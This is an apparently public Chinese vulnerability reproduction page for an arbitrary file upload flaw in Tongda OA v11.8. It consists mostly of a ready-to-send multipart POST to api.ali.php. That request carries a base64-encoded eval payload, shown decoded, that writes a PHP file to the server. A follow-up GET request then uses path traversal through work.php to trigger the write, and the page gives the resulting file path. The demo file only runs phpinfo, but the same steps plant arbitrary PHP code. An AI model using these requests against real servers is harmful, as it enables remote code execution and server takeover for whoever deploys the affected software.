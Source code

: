 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a.png)

像 api.ali.php 发送请求包

```python
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

<a-checkbox checked>参数a base解码</a-checkbox></br>

<a-checkbox checked>ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','<?php phpinfo();?>');</a-checkbox></br>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630513004438-e5a73ef6-8d65-40a1-9a3c-3be30cd7d164.png)

再发送GET请求写入文件

```python
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630513044174-8139c404-4f11-404e-be04-42d86b407bdd.png)

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630513283771-36cc86c7-a150-4834-be64-243b20938165.png)